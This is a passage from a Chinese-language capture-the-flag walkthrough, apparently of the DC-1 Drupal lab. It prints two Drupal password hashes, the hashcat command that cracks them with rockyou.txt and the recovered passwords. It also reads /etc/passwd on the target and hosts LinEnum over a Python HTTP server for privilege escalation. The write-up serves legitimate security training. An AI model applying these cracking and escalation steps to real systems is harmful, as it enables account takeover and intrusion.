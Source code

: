 ```
```

发现user表，查看表中信息

![image-20210903105329450](/assets/img/image-20210903105329450.png)

这里通过hashcat破解密码，字典使用kali的rockyou.txt。

hashcat使用介绍：[hashcat使用](../../tools/hashcat.md)

查询Drupal模式id

![image-20210903105827686](/assets/img/image-20210903105827686.png)

执行破解

```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > hash.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> hash.txt
hashcat -m 7900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 
```

耗时一小时40分钟破解完成，获得admin密码53cr3t，Fred密码MyPassword

![dc1.1](/assets/img/dc1.1.png)

使用admin账号登录，在Dashboard中发现flag3

<img src="/assets/img/image-20210903110313231.png" alt="image-20210903110313231" style="zoom: 80%;" />

### flag4

根据flag3的提示，`cat /etc/passwd`

![image-20210903110638671](/assets/img/image-20210903110638671.png)

发现flag4用户，查看home下存在flag4.txt，查看内容获得flag4

![image-20210903110757247](/assets/img/image-20210903110757247.png)

### flag5

根据flag4提示，通过同样方法在root下获取flag，尝试没有权限

![image-20210903110856064](/assets/img/image-20210903110856064.png)

使用LineEnum提权

在kali上下载LineEnum，并启动一个HTTP服务

```bash
git clone https://github.com/rebootuser/LinEnum.git
cd LinEnum
python -m SimpleHTTPServer 8080
```
